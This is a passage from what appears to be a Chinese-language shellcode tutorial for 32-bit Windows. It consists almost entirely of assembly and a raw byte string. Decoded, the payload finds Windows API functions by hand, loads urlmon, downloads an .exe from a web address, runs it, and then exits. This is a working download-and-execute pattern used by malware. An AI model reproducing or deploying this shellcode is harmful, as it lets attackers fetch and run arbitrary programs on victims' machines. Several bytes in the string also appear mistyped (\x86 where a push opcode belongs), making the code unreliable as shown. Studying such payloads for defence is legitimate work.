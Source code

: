```
push ecx
0x6578652e  ; exe.
0x30323032  ; 0202
0x51514350  ; QQCP

push esp
pop ecx

xor edx,edx
push edx
push ecx

call eax
;-------------------------

add esp,8
```
11. 结束进程
```
;-----------------------------

;finding address of ExitProcess()
xor ecx,ecx
push 0x41737365
mov [esp+3],byte cl
push 0x636f7250
push 0x74697845

push esp
push edi

call esi

;--------------
call eax


```
12. 修改示例代码
```
\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x70\x14\xad\x96\xad\x8b\x48\x10\x8b\x59\x3c\x01\xcb\x8b\x5b\x78\x01\xcb\x8b\x73\x20\x01\xce\x31\xd2\x42\xad\x01\xc8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x8b\x73\x1c\x01\xce\x8b\x14\x96\x01\xca\x31\xf6\x89\xd6\x89\xcf\x31\xc0\x50\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x51\xff\xd2\x83\xc4\x0c\x31\xc9\x68\x6c\x6c\x41\x41\x88\x4c\x24\x02\x68\x6f\x6e\x2e\x64\x68\x75\x72\x6c\x6d\x54\xff\xd0\x83\xc4\x0c\x31\xc9\x68\x65\x41\x42\x42\x88\x4c\x24\x02\x68\x6f\x46\x69\x6c\x68\x6f\x61\x64\x54\x68\x6f\x77\x6e\x6c\x68\x55\x52\x4c\x44\x54\x50\xff\xd6\x83\xc4\x14\x50\x58\x31\xc9\x51\x68
\x2e\x65\x78\x65\x68
\x32\x30\x32\x30\x68
\x50\x43\x51\x51\x68
\x45\x58\x45\x2f\x68
\x43\x51\x51\x5f\x68
\x51\x51\x2f\x50\x68
\x62\x2f\x50\x43\x68
\x71\x71\x77\x65\x86
\x63\x6f\x6d\x2f\x86
\x2e\x71\x71\x2e\x86
\x64\x6f\x77\x6e\x86
\x73\x3a\x2f\x2f\x86
\x68\x74\x74\x70
\x54\x59\x31\xdb\x53\x68
\x2e\x65\x78\x65
\x68
```
